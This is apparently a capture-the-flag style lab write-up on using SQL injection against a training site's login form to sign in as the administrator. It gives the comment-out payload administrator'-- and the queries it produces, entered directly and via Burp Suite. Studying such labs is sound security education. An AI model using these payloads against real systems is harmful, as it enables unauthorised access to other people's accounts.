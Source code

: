 This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the **administrator** user.
<br>

**Exploit:**<br>
We are given a home page having products and Home and My Account buttons.
![alt text](/images/lab2homepage.png)

We have a login form in myaccount page.
![alt text](/images/lab2loginpage.png)

We need to login as ```administrator``` user. We insert payload in login form. We use following query. <br>
- ```select username from users where user='administrator' and password='admin or something'```
this will give internal server error
- ```select username from users where user=''' and password='admin or something'``` we pass ```'``` in username field to detect anomalies. Still nothing.
- ```select username from users where user='administrator'-- and password='admin or something'``` we comment out password part by passing ```administrator'--``` in username field. And lab was solved.
![alt text](/images/lab2payload.png)



We can also easily do this lab by using Burpsuite. Just pass ```administrator'--``` as parameter to login field. ```/login?username=```
![alt text](/images/lab2burp.png)